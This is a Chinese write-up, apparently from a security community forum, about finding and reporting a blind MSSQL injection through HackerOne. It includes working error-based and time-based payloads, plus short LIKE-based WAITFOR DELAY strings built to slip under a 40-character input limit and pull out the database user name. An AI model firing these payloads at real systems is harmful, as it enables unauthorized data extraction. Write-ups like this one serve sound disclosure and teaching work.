




# 一次 h1 漏洞提交记录 - 先知社区

一次 h1 漏洞提交记录

- - -

在某目标上触发单引号报错，发现疑似注入点：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221095704-8311597c-d05c-1.png)

有报错回显，一般自然想到使用报错注入，而且根据回显内容判断后端数据库显然是 mssql 数据库。

使用基础的报错语句尝试

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221095735-956bc7a6-d05c-1.png)

发现没报错，且输出了格式不对的提示，那就很奇怪了。用基础语法 `X'OR'1'='1` 再次尝试，返回结果直接报语法错误：

```plain
Incorrect syntax near the keyword 'OR'
```

结合之前的错误提示，不难有两个猜测，第一个是对输入格式有要求，后端会按照固定格式进行处理，再插入查询语句中，第二个就是该 SQL 查询不是正常的查询语句，可能是在什么存储过程或者自定义函数或者复杂 SQL 查询里，导致使用正常查询语句但出现语法错误。

经过尝试，第一个猜测不成立：

```plain
XXXXX-XXX-XXX0'OR'1'='1 返回 Incorrect syntax near the keyword 'OR'
X'OR'1'='1 返回 Incorrect syntax near the keyword 'OR'
```

说明语句都被带入到了 SQL 查询中，且均报出是语法错误。

所以只可能是第二种猜测，在第二种猜测中，无论是什么原因导致正常查询语句报错，都需闭合单引号。将单引号插入原本语句中的方法已经试过了，程序报错。尝试注释：

```plain
X'+or+1=convert(int,@@version)-- 返回 Invalid format
X'+or+1=1-- 返回 Invalid format
```

程序倒是不报错了，但无论输入什么，都一直返回 `Invalid format` ，非常之奇怪。

经过不断的尝试，发现还有一种闭合单引号思路，就是原生方法中存在单引号，刚好能闭合最后一个单引号，这个方法最典型的就是 `waitfor delay '0:0:2'`，也属于插入原本语句的利用方式。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221095948-e4911868-d05c-1.png)

最终延时成功。证明即可，漏洞提交之。

过了几天，漏洞有了反馈，需要更多信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221100024-f9b5e660-d05c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221095959-eaff3fcc-d05c-1.png)

得了，继续折腾。

确定使用延时盲注可行，就使用延时盲注的方法

```plain
'if(len(db_name()))<100 WAITFOR DELAY '0:0:2  不延时
'if(len(user))<100 WAITFOR DELAY '0:0:2 延时
```

又遇到了新问题，经过多次测试之后，发现貌似有长度限制

```plain
X'if(len(USER))<100000000+WAITFOR+DELAY+'0:0:2 不延时
```

发送上述请求，确定了有长度限制，最终确定为 40 字符限制。那就很难办了，`WAITFOR+DELAY+'0:0:2` 就占用了 20 个字符，只有 20 个字符的发挥空间，就不能使用常规的 `SUBSTRING` 和 `ASCII` 。

这时想到可以用 `LIKE` 替换，且 `IF` 方法可以用空格代替括号，这样又可以减少一位占用。

```plain
'if+len(user)=13+waitfor+delay'0:0:2 延时
```

用户名是 13 位。

```plain
'if+user+like'i%25'waitfor+delay'0:0:2 延时
```

之后就可以用 `burp` 分别爆破每位，不断替换百分号的位置。但过程中还是有小问题，因为用户名是 13 位，所以肯定无法全部展示，这时可以用 `%` 分别代表前半部分和后半部分位置，如

```plain
'if+user+like'is%25'waitfor+delay'0:0:2 延时
'if+user+like'%25user'waitfor+delay'0:0:2 延时
```

通过上述操作就可以把 dbuser 跑出来：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221100202-34221062-d05d-1.png)

最终漏洞也得到了确认

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221100210-392b2724-d05d-1.png)

至于为什么不跑其他的数据库版本、数据库名，像 `version()` 和 `db_name()` 这类自身占用的字符就太多了，肯定超过 40 字符。同样，因为字符限制，实际利用，取具体数据也无法实现，算是鸡肋漏洞。（当然也可能是我太菜了，无法利用成功）
